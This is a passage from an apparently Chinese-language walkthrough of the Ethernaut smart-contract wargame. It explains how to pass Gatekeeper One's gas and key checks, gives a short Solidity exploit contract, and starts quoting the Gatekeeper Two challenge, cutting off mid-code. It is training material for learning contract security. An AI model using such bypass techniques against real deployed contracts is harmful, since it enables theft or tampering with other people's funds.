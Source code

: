 第一个部署一个第三方合约绕过即可，第二个需要通过调试得知到达这一步的 gasleft() 是多少

第三个需要_gateKey的最后2字节和最后4字节一样，整个8字节和最后4字节不一样，最后4字节和玩家账户的最后2字节一样

设置为0x0000000100005893即可

第1次的时候先随便设置gas，调用enter时，传30000 gas，然后在 `etherscan` 查看 Geth Debug Trace

查看gasleft() opcodes GAS，得到这一步的剩余gas，为29746（29748 - 这一步消耗的 2 gas = 29746，也就是下一步的剩余gas）

[crytic/evm-opcodes: Ethereum opcodes and instruction reference (github.com)](https://github.com/crytic/evm-opcodes)

<img src="https://s3.bmp.ovh/imgs/2022/07/20/f7d1720b1cc11482.png" style="zoom:67%;" />

花费了30000-29746=254 gas，可以设置gas为 8191x4+254=33018，这样可以通过gateTwo()

```js
pragma solidity ^0.6.0;

interface GatekeeperOne {
  function enter(bytes8 _gateKey) external returns (bool);
}
contract Exp {
    GatekeeperOne challenge;
    bytes8 gatekey = 0x0000000100005893;
    constructor(address _addr) public {
        challenge = GatekeeperOne(_addr);
    }
    function exp() public {
        challenge.enter.gas(33018)(gatekey);
    }
}
```

## Gatekeeper Two

通过三个gate

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
```